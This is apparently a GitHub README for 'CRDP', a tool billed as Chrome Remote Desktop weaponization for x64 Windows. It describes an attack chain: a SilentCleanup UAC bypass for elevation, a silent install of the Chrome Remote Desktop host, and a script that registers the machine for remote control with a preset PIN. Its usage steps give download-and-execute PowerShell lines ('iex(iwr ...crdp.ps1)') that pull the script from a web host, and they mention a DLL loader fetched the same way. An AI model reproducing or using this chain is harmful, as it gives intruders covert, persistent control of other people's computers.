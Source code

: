 # CRDP
Chrome Remote Desktop weaponization Tool(only x64)


## Execution Flow

1. [SilentCleanup_BypassUAC](https://crimsonlabs.io/posts/uac-bypass-via-dll-planting/)
2. Downloading the msi file from the [website](https://dl.google.com/edgedl/chrome-remote-desktop/chromeremotedesktophost.msi) and installing crdp.
3. Crdp.ps1 with pre-generated commands and pin numbers according to the crdp format is executed.


## How To Use

V1:
1. Create Windows (CMD) on the https://remotedesktop.google.com/headless/ website.
    - The generated command is one-time.
2. Copy and paste the generated command into crdp.ps1 to the $CRDP_CMD variable on line 3.
3. Build the SilentCleanup_BypassUAC project in the code folder and load the script to an address on the web as follows.
    - SilentCleanup_BypassUAC.exe "powershell iex(iwr http://127.0.0.1:80/crdp.ps1)"
    - SilentCleanup_BypassUAC.exe "powershell iex(iwr http://https://raw.githubusercontent.com/veath1/CRDP/main/crdp.ps1)"

V2:
1. Create Windows (CMD) on the https://remotedesktop.google.com/headless/ website.
    - The generated command is one-time.
2. Copy and paste the generated command into crdp.ps1 to the $CRDP_CMD variable on line 3.
3. Build the dll project in the v2 folder and fit it to get it from xloader.ps1 through the website.
    - Also available in bat script format via p2cmd.ps1.

## Reference

  - https://asec.ahnlab.com/ko/54804/
  - https://crimsonlabs.io/posts/uac-bypass-via-dll-planting/
  - https://github.com/hackerhouse-opensource/iscsicpl_bypassUAC
